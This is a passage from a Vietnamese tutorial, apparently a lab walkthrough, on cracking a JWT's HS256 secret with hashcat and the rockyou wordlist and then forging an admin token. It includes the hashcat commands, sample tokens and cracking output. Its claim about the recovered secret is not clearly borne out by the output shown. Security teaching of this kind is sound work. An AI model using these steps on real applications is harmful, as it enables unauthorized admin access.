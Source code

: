 #### **3. Lấy JWT hợp lệ**
Hacker sẽ cần một JWT hợp lệ từ ứng dụng web, thường bằng cách đăng nhập hoặc thu thập từ yêu cầu HTTP.

**Ví dụ về JWT hợp lệ:**
```text
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbmI6ZmFsc2UsImV4cCI6MTcxMTIwNDYzN30.r_rYB0tvuiA2scNQrmzBaMAG2rkGdMu9cGMEEl3WTW0
```

#### **4. Kiểm tra thuật toán ký**
Hacker có thể kiểm tra thuật toán ký được sử dụng bằng cách giải mã phần **Header** của JWT. Trong ví dụ trên, thuật toán ký là **HS256**.

**Header sau khi giải mã:**
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

#### **5. Tấn công brute-force khóa bí mật**
Hacker có thể sử dụng công cụ như **hashcat** để brute-force khóa bí mật của JWT.

**Chuẩn bị JWT cho hashcat:**
```bash
echo -n "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaHRiLXN0ZG50IiwiaXNBZG1pbmI6ZmFsc2UsImV4cCI6MTcxMTIwNDYzN30.r_rYB0tvuiA2scNQrmzBaMAG2rkGdMu9cGMEEl3WTW0" > jwt.txt
```

**Chạy hashcat với wordlist (ví dụ: rockyou.txt):**
```bash
hashcat -m 16500 jwt.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

**Kết quả của hashcat:**
```text
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 16500 (JWT (JSON Web Token))
Hash.Target......: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiaH...l3WTW0
Time.Started.....: Sat Mar 23 15:24:17 2024 (2 secs)
Speed.#1.........:  3475.1 kH/s
Recovered........: 1/1 (100.00%)
Candidates.#1....: rb270990 -> rayruben1
```

Trong ví dụ này, hashcat đã tìm ra khóa bí mật là **"rayruben1"**.

#### **6. Tạo JWT giả mạo (Forging a Token)**
Khi hacker đã biết được khóa bí mật, họ có thể tạo ra JWT giả mạo mà vẫn hợp lệ.

**Payload mới:**
```json
{
  "user": "htb-stdnt",
  "isAdmin": true,
  "exp": 1711186044
}
```

